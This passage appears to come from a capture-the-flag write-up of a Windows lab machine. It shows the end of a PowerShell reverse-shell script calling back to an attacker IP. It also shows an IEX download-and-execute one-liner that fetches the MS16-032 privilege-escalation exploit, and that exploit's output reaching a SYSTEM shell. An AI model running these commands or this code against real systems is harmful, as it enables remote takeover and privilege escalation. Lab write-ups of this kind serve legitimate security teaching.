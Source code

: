 ```
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.21 -Port 1337
```

So the exploit will download and run this script once it is done. And I receive the shell on the listener. Remember that I am still running the python webserver to upload these.

Note that I am running the x64 version of powershell here: `C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe` And the x86 version in the exploit: `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"`

```
C:\Users\kostas\Desktop>C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.21/Invoke-MS16-032.ps1')
C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.21/Invoke-MS16-032.ps1')
     __ __ ___ ___   ___     ___ ___ ___ 
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|
                                        
                   [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1572

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 1176
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!


C:\Users\kostas\Desktop>
```
